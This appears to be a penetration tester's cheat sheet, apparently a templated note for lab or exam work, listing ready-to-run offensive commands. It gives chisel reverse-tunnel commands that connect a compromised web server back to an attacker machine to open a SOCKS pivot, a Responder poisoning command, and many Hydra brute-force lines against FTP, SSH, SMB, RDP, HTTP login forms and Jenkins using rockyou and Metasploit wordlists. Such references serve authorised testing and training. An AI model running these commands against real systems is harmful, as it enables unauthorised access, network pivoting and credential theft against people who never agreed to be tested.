 ```bash
#chisel
#Run command on attacker machine
chisel server -p 8888 --reverse
#<socks>Run command on Web Server machine
 .  .\chisel.exe client <% tp.frontmatter["LHOST"] %>:8001 R:1080:socks
# and edit the proxychains with the port that chisel provided
/etc/proxychains.conf
socks5 127.0.0.1 1080


#When trying to connect to a local port
C:\\xampp\\htdocs>.\\chisel.exe client 192.168.45.176:8888 R:8090:localhost:80
```

### responder
```bash
sudo Responder -I tun0 -A
```

### Hydra
```bash
hydra <% tp.frontmatter["RHOST"] %> -l <% tp.frontmatter["USERNAME"] %> -P /usr/share/wordlists/<FILE> ftp|ssh|smb://<% tp.frontmatter["RHOST"] %>

# http-get
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.20.218 http-get /webdav/

# http-post-form
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
hydra -l <% tp.frontmatter["USERNAME"] %> -P /usr/share/wordlists/rockyou.txt <% tp.frontmatter["RHOST"] %> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"

# In this case we find out that the username and passwords are being base64 encoded so we did ^USER64^ and ^PASS64^
# Also discovered that the fail code is giving us 403 so set that F=403
hydra -I -f -L  -P passwords.txt 'http-post-form://192.168.243.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'

# rdp
sudo hydra -L /usr/share/wordlists/rockyou.txt -p "<% tp.frontmatter["PASSWORD"] %>" rdp://<% tp.frontmatter["RHOST"] %>
hydra -L /usernamepath -P /passpath rdp://10.x.x.x -s 3333

# ssh
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://<% tp.frontmatter["RHOST"] %>
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.88.141.3 -t 4 ssh
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.x.x

# jenkins
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8000 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in&Login=Login:Invalid username or password" -V

# ftp
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt 192.88.141.3 ftp

#smb
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.211.66.3 smb
```